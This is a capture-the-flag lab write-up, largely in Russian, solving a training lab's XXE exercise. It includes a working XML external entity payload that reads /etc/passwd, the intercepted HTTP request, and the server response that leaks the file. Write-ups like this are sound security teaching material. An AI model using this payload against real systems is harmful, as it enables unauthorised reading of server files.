

# Lab: Exploiting XXE using external entities to retrieve files

## Description

Level: `APPRENTICE`
> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

# Strategy & How payload works

## Strategy

1. **Поиск точки входа**: 
   В приложении есть функционал "Check stock", который отправляет данные на сервер.
   Перехватив запрос в `Burp`, мы видим, что данные передаются в формате 
   XML (`Content-Type: application/xml`). Это потенциальная точка для XXE-инъекции.
2. **Внедрение внешней сущности**:
   Нам нужно заставить парсер прочитать локальный файл.
   Мы добавляем в начало XML-документа директиву `DOCTYPE`, которая определяет новую сущность `xxe`
   с системным путем к файлу (`SYSTEM "file:///etc/passwd"`).
3. **Использование сущности**:
   В теле запроса мы заменяем значение `productId`
   (которое возвращается в ответе) на ссылку на нашу сущность `&xxe;`.
   Парсер подставляет вместо `&xxe;` содержимое файла `/etc/passwd`.
4. **Извлечение данных**:
   Приложение пытается обработать полученные данные как ID продукта, терпит неудачу и возвращает ошибку:
   `Invalid product ID: <содержимое файла>`. Мы читаем содержимое файла из ответа.

## How payload works

**Исходный XML:**
`<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>14</productId><storeId>1</storeId></stockCheck>`

**Внедренный пейлоад:**
`<?xml version="1.0" encoding="UTF-8"?>`
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
`<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>`

*   **`<!DOCTYPE foo [...]>`**: Объявляет тип документа. Внутри квадратных скобок мы определяем сущности (entities).
*   **`<!ENTITY xxe SYSTEM "file:///etc/passwd">`**: Создает сущность с именем `xxe`. Ключевое слово `SYSTEM` указывает, что значение сущности нужно загрузить из внешнего источника. В данном случае это файл по пути `/etc/passwd`.
*   **`&xxe;`**: Это ссылка на объявленную сущность. Когда XML-парсер доходит до этого места, он заменяет `&xxe;` на содержимое файла `/etc/passwd`.
*   **`<productId>&xxe;</productId>`**: Мы помещаем ссылку на сущность в тег `productId`, потому что именно это значение приложение возвращает в ответе (в сообщении об ошибке). Если бы мы поместили ее в `storeId`, мы бы, скорее всего, ничего не увидели (или увидели ошибку без содержимого файла).

# Solution

Перехватываем запрос при нажатии на `Check stock` и видим:
```http
POST /product/stock HTTP/2
Host: 0af900ea04c3787d81a075c30084009a.web-security-academy.net
Cookie: session=VoiisJerhOPWO0gXvxtgY2fwYpiaCg0U
Content-Length: 108
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Not A(Brand";v="99", "Chromium";v="154"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36
Accept: */*
Origin: https://0af900ea04c3787d81a075c30084009a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0af900ea04c3787d81a075c30084009a.web-security-academy.net/product?productId=14
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>14</productId><storeId>1</storeId></stockCheck>
```

Значит здесь может быть `xxe-inj`, используем подобный `payload`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

В итоге получаем содержимое файла:
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2338

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
"
```




